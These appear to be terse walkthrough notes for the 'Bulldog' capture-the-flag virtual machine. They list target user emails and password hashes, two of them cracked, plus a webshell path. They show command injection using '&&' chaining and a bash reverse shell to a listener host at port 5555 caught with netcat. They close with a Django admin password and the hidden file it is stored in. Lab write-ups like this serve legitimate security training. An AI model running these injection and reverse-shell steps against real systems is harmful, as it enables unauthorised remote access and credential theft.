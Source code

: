 url=192.168.1.155

Potentiell users:
alan@bulldogindustries.com
william@bulldogindustries.com
malik@bulldogindustries.com
kevin@bulldogindustries.com
ashley@bulldogindustries.com
nick@bulldogindustries.com
sarah@bulldogindustries.com

Password hashes are in the source code.
6515229daf8dbdc8b89fed2e60f107433da5f2cb
38882f3b81f8f2bc47d9f3119155b05f954892fb
c6f7e34d5d08ba4a40dd5627508ccb55b425e279
0e6ae9fe8af1cd4192865ac97ebf6bda414218a9
553d917a396414ab99785694afd51df3a8a8a3e0
ddf45997a7e18a25ad5f5cf222da64814dd060d5 -> bulldog
d8b8dd5e7f000b8dea26ef8428caf38c04466b3e -> bulldoglover


go to webshell $url/dev/shell

you can execute commands not allowed like that:
ls && id

ref shell with

ls && bash -c 'exec bash -i &>/dev/tcp/192.168.1.158/5555 <&1'
and listening with

nc -nvlp 5555

password for django is SUPERultimatePASSWORDyouCANTget -> is encoded in /hom/bulldogadmin/.hiddenadmindirectory/customPermissionApp